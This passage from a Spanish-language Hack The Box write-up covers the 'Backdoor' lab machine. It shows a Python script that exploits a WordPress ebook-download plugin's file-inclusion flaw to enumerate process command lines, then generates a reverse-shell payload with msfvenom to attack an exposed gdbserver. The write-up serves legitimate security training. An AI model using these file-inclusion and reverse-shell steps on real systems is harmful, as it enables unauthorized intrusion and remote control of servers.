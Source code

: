 ```py
import requests

url_site = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php"
pids = [1, 485, 511, 527, 656, 657, 658, 659, 660, 661, 662, 684, 685, 689, 707, 748, 749, 750, 752, 753, 754, 759, 760, 762, 766, 775, 776, 785, 786, 787, 821, 827, 828, 853, 854, 856, 885, 886, 888, 916, 918, 920, 921]

for pid in pids:
    payload = f"?ebookdownloadurl=/proc/{pid}/cmdline"

    r = requests.get(url_site + payload)
    print("\n" + r.text)
```

Abriendo bien los ojitos notamos algo LLAMATIVO:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/backdoor/416bash_LFI_PY_bruteforcePID_gdbserverPORT1337.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

```bash
su user -c cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
```

Upa, ese puerto nosotros lo tenemos en nuestro reconocimientoooooooowowowowow... Ahora sabemos que esta siendo ejecutado (servido) por el programa `gdbserver`, que podemos hacer????? Efectiiiivamente, buscar info con respecto a ese programa y quizás, solo quizás encontremos alguna vuln (:

> "<u>gdbserver</u> es un programa informático que permite depurar otros programas de forma remota y local." ~ [**Wikipedia**](https://en.wikipedia.org/wiki/Gdbserver)

Sip, el programa que empleamos para jugar con binarios y hacer reversing o pwn (: Buscando `gdbserver exploit` tenemos:

* [GNU gdbserver 9.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50539).

Nos encontramos un exploit bastante actual y realizado por el master de masters [7Rocky](https://7rocky.github.io/) (a darle su buen [respect](https://www.hackthebox.com/home/users/profile/532274)), para lograr la explotación se envía un [shellcode](https://es.wikipedia.org/wiki/Shellcode) al servidor que gracias a sus falencias será ejecutado, así que descarguémoslo y veamos si nos sirve contra la máquina :D

Como bien nos indica **7Rocky** en la descripción del programa, lo primero que necesitamos es generar un objeto que contenga las instrucciones a ejecutar, por ejemplo una reverse shell, para esto aprovecharemos la herramienta [msfvenom](https://www.hackplayers.com/2017/09/msfvenom-payload-creator-msfpc.html):

```bash
❱ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.19 LPORT=4463 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
```

> "PrependFork=true -> Start the payload in its own process via fork or popen" (sin este argumento obtenemos la petición, pero la terminal se muere instantaneamente) ~ [infosecmatter.com](https://www.infosecmatter.com/metasploit-module-library/?mm=payload/ruby/shell_bind_tcp)
